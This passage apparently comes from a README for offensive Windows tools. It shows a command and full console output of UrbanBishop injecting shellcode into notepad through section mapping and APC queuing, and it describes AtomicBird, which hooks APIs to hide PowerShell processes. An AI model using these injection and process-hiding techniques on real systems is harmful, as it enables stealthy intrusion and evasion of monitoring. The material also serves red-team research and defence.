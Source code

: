 ```
C:\> UrbanBishop.exe -i 3380 -p C:\Users\b33f\Desktop\sc.bin -c
   _O       _____     _
  / //\    |  |  |___| |_ ___ ___
 {     }   |  |  |  _| . | .'|   |
  \___/    |_____|_| |___|__,|_|_|
  (___)
   |_|          _____ _     _
  /   \        | __  |_|___| |_ ___ ___
 (_____)       | __ -| |_ -|   | . | . |
(_______)      |_____|_|___|_|_|___|  _|
/_______\                          |_|
                       ~b33f~

|--------
| Process    : notepad
| Handle     : 828
| Is x32     : False
| Sc binpath : C:\Users\b33f\Desktop\sc.bin
|--------

[>] Creating local section..
    |-> hSection: 0x338
    |-> Size: 31361
    |-> pBase: 0x2470000
[>] Map RX section to remote proc..
    |-> pRemoteBase: 0x16967970000
[>] Write shellcode to local section..
    |-> Size: 31361
[>] Seek export offset..
    |-> pRemoteNtDllBase: 0x7FFDE64A0000
    |-> LdrGetDllHandle OK
    |-> RtlExitUserThread: 0x7FFDE650CF10
    |-> Offset: 0x6CF10
[>] NtCreateThreadEx -> RtlExitUserThread <- Suspended..
    |-> Success
[>] Set APC trigger & resume thread..
    |-> NtQueueApcThread
    |-> NtAlertResumeThread
[>] Waiting for payload to finish..
    |-> Thread exit status -> 0
    |-> NtUnmapViewOfSection
```

### AtomicBird

AtmoicBird, is a crude POC to demo the use of [EasyHook](https://easyhook.github.io/) in .Net payloads combined with [Costura](https://github.com/Fody/Costura) to pack resources into a single module. AtomicBird has two functions, (1) Hook MessageBoxA => print to console / modify parameters => unhook and (2) Hook NtQuerySystemInformation->SystemProcessInformation, search the linked list of SYSTEM_PROCESS_INFORMATION Structs to find powershell processes and unlink them. The second function requires that you inject the .Net PE into a process that uses NtQuerySystemInformation (Process Explorer was used for testing), you can do that with execute-assembly or with donut by generating shellcode. AtmoicBird was only tested on x64 Win10.
